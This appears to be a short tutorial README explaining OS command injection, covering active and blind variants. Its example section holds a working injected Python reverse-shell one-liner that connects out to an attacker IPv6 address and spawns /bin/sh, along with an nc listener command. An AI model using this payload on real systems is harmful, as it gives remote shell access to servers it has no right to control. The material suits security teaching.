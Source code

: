  #                                           Web-Vulnerabilites

### OS Command Injection :

### What is OS Command Injection ?


OS Command Injection is server side  web vulnerablities where attacker execute " system command"  like id, whoami ,unamem etc os command  .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute " system command "  like ls ,server will return result of ls .(Attacker will se the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seening the result of  "system command " you must upload reverse shell on target / victim server . After ,uploaded  reverse shell on victim server , you must be  listen uploades shell on attacker terminal using nc command . 


### Example :
         
         1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

        2. listen reverse shell :

                                 nc -lnvp 4242

Note : 
           
       1. Change ip according your local host ip
        
       2. One can easily  upload shell if OS command injection is occured .
              
